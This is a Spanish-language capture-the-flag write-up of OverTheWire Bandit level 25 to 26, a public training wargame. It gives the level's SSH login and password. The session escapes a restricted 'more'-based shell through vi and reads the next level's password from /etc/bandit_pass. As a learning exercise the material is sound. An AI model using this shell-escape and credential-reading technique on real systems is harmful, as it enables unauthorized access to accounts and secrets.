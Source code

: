 # Bandit Level 25 → Level 26

## Objetivo
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

## Datos de Acceso
ssh bandit25@bandit.labs.overthewire.org -p 2220
p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

## Solucion
```shell
bandit25@bandit:~$ ls bandit26.sshkey 
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p 2220 _ _ _ _ ___ __ | | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_ \ | |_) | (_| | | | | (_| | | |_ / /| (_) | |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ Connection to localhost closed. 
bandit25@bandit:~$ cat /etc/passwd | grep bandit26 bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext 
bandit25@bandit:~$ cat /usr/bin/showtext #!/bin/sh export TERM=linux exec more ~/text.txt exit 0 
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p 2220 | | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_ \ | |_) | (_| | | | | (_| | | |_ / /| (_) | --More--(83%) v _ _ _ _ ___ __ | | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_ \ | |_) | (_| | | | | (_| | | |_ / /| (_) | "~/text.txt" [readonly] 6L, 258B :e /etc/bandit_pass/bandit26 c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1 ~ ~ ~ ~ "/etc/bandit_pass/bandit26" [readonly] 1L, 33B :!q | | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_ \ | |_) | (_| | | | | (_| | | |_ / /| (_) | Press ENTER or type command to continue q ~ ~ ------------------------ Connection to localhost closed. bandit25@bandit:~ exit

```

## Notas Adicionales
necesitamos entrar al archivo pero en ventana miniminzada para que no cargue el script completo

## Referencias